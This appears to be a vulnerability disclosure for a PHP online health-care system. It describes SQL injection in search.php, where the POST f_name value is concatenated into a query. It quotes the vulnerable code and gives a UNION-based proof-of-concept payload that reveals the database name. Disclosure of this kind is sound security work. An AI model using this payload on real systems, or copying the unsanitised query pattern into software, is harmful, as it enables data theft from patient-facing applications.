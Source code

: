 ### Online Health Care System in PHP with Full Source Code

#### Affected version

Online Health Care System in PHP with Full Source Code

#### **supplier**

https://www.sourcecodester.com/php/14526/online-health-care-system-php-full-source-code-2020.html

#### Vendor

https://www.sourcecodester.com/

#### **Vulnerability file**

search.php

#### Description

Online Health Care System in PHP with Full Source Code. In the search.php，the f_name parameters passed by the POST are concatenated into the query1 sql statement, and there is SQL injection.

#### **code analysis**

Here’s the translation:

"In `search.php`, the `_POST['f_name']` receives the request and is stored in the variable `$name`. Then, `$name` is concatenated into the SQL query `query1`, which can trigger an SQL injection vulnerability. This may lead to data leakage or even result in gaining server access."

![image-20240820205513595](https://github.com/user-attachments/assets/f595f2e3-3567-4a13-ac13-d65b4653c61b)

![image-20240820205543674](https://github.com/user-attachments/assets/be3a078f-690a-4bae-8906-d6af4fa7a421)

	$name=$_POST['f_name'];  
	$query1 = "SELECT * from doctor inner join schedule on schedule.d_id=doctor.id WHERE  (permission='approved' OR permission='Added') AND (f_name like'%$name%'  or f_name like'%$name%')";   
	$run = mysqli_query($db,$query1);

####  **POC**

```
1%' or 1=1 )  UNION SELECT 1,2,3,4,5,database(),7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
```

In `index.php`, entering the following payload in the search box can retrieve the database name.

![image-20240820205350796](https://github.com/user-attachments/assets/2482639c-3a22-4137-b4ef-e86344118663)

**You can see the database name echoed back**

![image-20240820205408380](https://github.com/user-attachments/assets/209ad025-29af-4726-b54f-3c3d73ab03b6)
